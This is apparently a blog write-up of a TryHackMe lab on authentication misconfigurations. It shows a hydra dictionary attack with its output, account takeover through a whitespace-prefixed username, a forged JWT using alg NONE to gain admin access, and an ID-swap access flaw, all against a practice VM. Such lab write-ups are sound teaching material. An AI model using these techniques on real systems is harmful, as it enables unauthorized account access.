 ```yaml
---
title: 'Exploiting Common Authentication Misconfigurations'
date: 2020-07-26 00:00:00
featured_image: '/images/posts/authenticate-icon.png'
excerpt: 'Authentication system helps keeping the unauthorized users away and plays a key role in a information technology systems. Know common type of attacks on authentication systems and common misconfigurations by developers.'
---
```

![](/images/posts/authenticate.png)

Authentication is one of the key components of a system. With the rise of internet usage and the number of applications, authentication became a key part of information technology space. But when the application developers misconfigure such systems, it opens the door for unauthorized access.

This post shows attacks on the authentication system and also how a misconfigure JWT based system can be exploited, by following the [TryHackMe](https://tryhackme.com/room/authenticate) provided vulnerable application.  


### Attacks on Authentication Systems
Common attack methods used to exploit the authentication systems and networks:

- **Brute force attack** - attempts to guess the credentials based on all possible character combinations.
- **Dictionary attack** - is based on a file of words and common passwords to guess the credentials.    
- **Pass the hash attack** - in a pass the hash attack, the attacker discovers the hash of the user's password and then uses it to log on to the system as the user.
- **Birthday attack** - in this the attacker will be able to create a password that produces the same hash as the user's actual password and is also known as a hash collision.  A hash collision occurs when a hashing algorithm creates the same hash for two different inputs (passwords).  
- **Rainbow table attack** - in this the attacker attempts to discover the password by comparing the actual password hash with a huge database of precomputed hashes, called the Rainbow table.  
- **Replay attack** - capturing the data in a session with the intent of later impersonating one of the parties in the session.  

### Example misconfigurations
Here are some example misconfigurations and we can see how these can be exploited.  
- **Lack of input sanitization**  When a developer ignores the sanitization of user input like username and passwords in the application code, then such application is vulnerable to attacks like SQL injections, buffer overflow attack, Cross-site scripting (CSS).  
- **JSON Web Token (JWT) misconfiguration**  A JSON web token, or JWT (“jot”) for short, is a standardized, optionally validated and/or encrypted container format that is used to securely transfer information between two parties. A misconfiguration can lead to exploit the authentication system.  
- **NoAuth** This type of vulnerability is very rare, but when it occurs, we can access other userspace just by changing the user id in the URL after login.   

## In Action
**Deploy the VM from [TryHackMe](https://tryhackme.com/room/authenticate) to exploit the authentication vulnerabilities.**    

### 1. Dictionary Attack
1. Access the web application on port 8888, which requests to provide user name and password.
1. The attack can be performed with Burp (from intruder with Sniper) or using `hydra`.  Lets use `hydra` for this demo.
1. But before that, we need to capture the http request that is being used for authentication.
1. Start Burp tool and capture the http request by posting some random credentials, like Jack:testpwd.
   Below is the http post request that was captured.
 ```
    POST /login HTTP/1.1
    Host: 10.10.237.94:8888
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.237.94:8888/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 26
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1

    user=jack&password=testpwd
 ```
1. Using `hydra`, lets perform the dictionary attack (with file rockyou.txt) to get the password for  users:
   jack and mike.    
 ```bash
    $ hydra -l jack -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:47:40
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: jack   password: 12345678
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:47:57

    #mike
    $ hydra -l mike -P /usr/share/wordlists/rockyou.txt 10.10.237.94 -s 8888 http-post-form "/login:user=^USER^&password=^PASS^:invalid_credentials"
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-26 14:48:37
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
    [DATA] attacking http-post-form://10.10.237.94:8888/login:user=^USER^&password=^PASS^:invalid_credentials
    [8888][http-post-form] host: 10.10.237.94   login: mike   password: 12345
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-26 14:48:44
```

1. From above we can see, the attack was successful and the passwords for the users are `12345678` and `12345` respectively.
1. Login with the above credentials and capture the user flags:  
 `fad9ddc1fe--------a05f02dd89e271` and `e1faaa144df--------9284f4a5bb578`.


### Re-registration due to lack of input sanitization  
In this attack, instead of performing dictionary based, we will use the application vulnerability where the input sanitization is not performing while registering for a new account. Lets exploit this by registering a new account that resembles to target user account, but with a leading white space in the user name field.

There is a user `darren`, but we don't have the password, so let's create a new account as `\darren` (notice a leading white space).  
Post account creation, log in with the new user `\ darren`, but the application logs into `darren` and capture the flag `fe86079416a--------37fea8874b667`.

![](/images/posts/authenticate-sample-account.png){:height="60%" width="60%"}

Repeat the same procedure for user `arthur`, by creating a new user account with user name as `\ arthur` and login to capture the flag:  
 `d9ac0f7d--------ac3edeb75d75e16e`.

### JSON Web Token  

A JWT contains three parts in the format [ Header ].[ Payload ].[ Signature ]  
Please refer to the article for more details on [JWT](https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843).

1. Access the web application on port 5000 and authenticate with user:user
1. Capture the JWT token either from Burp or using a `browser-->web developer tools-->Storage--> Local Storage`.  

  JWT Token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA`  

  Complete Post request:  

 ```
      GET /protected HTTP/1.1
      Host: 10.10.237.94:5000
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
      Accept: */*
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: http://10.10.237.94:5000/
      Content-Type: application/json
      Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE1OTU3OTE2ODEsImlhdCI6MTU5NTc5MTM4MSwibmJmIjoxNTk1NzkxMzgxLCJpZGVudGl0eSI6MX0.bAPHetpdduqoY3_o2og5Et7W2Ies9VL3AKMntD1_2yA
      DNT: 1
      Connection: close
 ```
1. The first two parts of a JWT token can be decoded using base64 decoder or from this [JWT debugger](https://jwt.io/#debugger-io).  
    ![](/images/posts/jwt-debugger.png){:height="100%" width="100%"}  
1. From the header decoded information, we can see, the algorithm using is `HS256` and in the payload, the identity is 1, which could be user ids.  
1. Let us exploit the misconfigured application, where the authentication system is not validating the tokens properly.   
1. Modify the token by making the algorithm to NONE, identity as 0 (assuming 0 is the admin account) and the third part is not required as the algorithm is NONE.
1. Encode first two parts with base64 [encoder](https://www.base64encode.org):   
`{"typ":"JWT","alg":"NONE"}` --> `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=`
`{"exp": 1595791681, "iat": 1595791381,"nbf": 1595791381, "identity": 0}` --> `eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=`
1. The new JWT token for admin is now ready, `eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0=.eyJleHAiOiAxNTk1NzkxNjgxLCAiaWF0IjogMTU5NTc5MTM4MSwibmJmIjogMTU5NTc5MTM4MSwgImlkZW50aXR5IjogMH0=.` and replace this in the browser session and click GO.
1. We now logged into the application with the `admin` user as shown in the below image.  

![](/images/posts/JWT-admin-login.png){:height="60%" width="60%"}

### No Auth
As mentioned earlier, this type of vulnerability is very rare in today's application but exists when designed the application poorly.  

1. Access the application on port 7777.
2. Create a new account and login.  
3. Visit private space and you can notice the url `http://10.10.237.94:7777/users/1`
4. Change the user id `1` with `0`, which access the superadmin's private space.  

### Conclusion
The Authentication and Authorization system are very critical in information technology space, a misconfigured system will open the door for attackers. Implementing the policies like Account lockouts, password complexities, salting the passwords, multi factor authentication, using strong hash algorithms for storing the credentials and performing the input sanitization when allowing users to input the data can help in avoiding the exploitation of authentication systems.  

###### References:  
1. Image and exploitable VM credits: [TryHackMe](https://tryhackme.com/room/authenticate)  
1. Gibson, D. (2014). Protecting Against Advanced Attacks. In CompTIA Security+ get certified get ahead SYO-401 study guide. YCDA, LLC.  
1. Koretskyi, M. (2018, June 26). A plain English introduction to JSON web tokens (JWT): what it is and what it isn't. Medium. https://medium.com/ag-grid/a-plain-english-introduction-to-json-web-tokens-jwt-what-it-is-and-what-it-isnt-8076ca679843.  
